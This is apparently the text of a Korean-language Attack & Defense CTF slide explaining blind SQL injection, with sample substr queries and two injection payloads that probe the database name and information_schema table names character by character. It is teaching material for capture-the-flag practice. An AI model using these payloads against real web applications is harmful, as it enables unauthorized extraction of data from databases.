

Attack & Defense CTF
SQL Injection
Blind SQL Injection
SQL에서 실행되는 결과 값의 참, 거짓을 통하여 데이터를 추출하는 방법
http://egloos.zum.com/metalbear/v/3521684
Blind SQL Injection 결과 예제
Select substr(name,1,1) from usr limit 1,1;
Euikun
Select (substr(name,2,1)) from usr limit 1,1;
Euikun

Blind SQL Injection 쿼리 예제
1' or ascii(substr((select database()),1,1))= 1#
1’ or substr((select table_name from information_schema.tables where table_schema=database()),1,1) > ‘a’#